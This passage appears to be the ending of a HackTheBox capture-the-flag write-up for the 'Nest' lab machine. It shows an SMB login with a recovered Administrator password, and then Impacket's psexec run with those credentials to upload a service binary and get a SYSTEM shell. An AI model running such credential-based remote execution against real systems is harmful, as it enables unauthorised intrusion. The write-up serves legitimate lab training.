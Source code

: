
### Getting root

By loggin on SMB as **Administrator:XtH4nkS4Pl4y1nGX** we don't get any root.txt

```
root@parrot:~/nest# smbclient \\\\10.10.10.178\\Users -U Administrator
Enter WORKGROUP\Administrator's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 00:04:21 2020
  ..                                  D        0  Sun Jan 26 00:04:21 2020
  Administrator                       D        0  Fri Aug  9 17:08:23 2019
  C.Smith                             D        0  Sun Jan 26 08:21:44 2020
  L.Frost                             D        0  Thu Aug  8 19:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 19:02:50 2019
  TempUser                            D        0  Thu Aug  8 00:55:56 2019

    10485247 blocks of size 4096. 6447114 blocks available
```

We spawn a [shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Windows#spawn-shell) and get root!

```
$ python psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

  [*] Requesting shares on 10.10.10.178.....
  [*] Found writable share ADMIN$
  [*] Uploading file ldeujzwO.exe
  [*] Opening SVCManager on 10.10.10.178.....
  [*] Creating service Rlak on 10.10.10.178.....
  [*] Starting service Rlak.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

If you liked this writeup, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
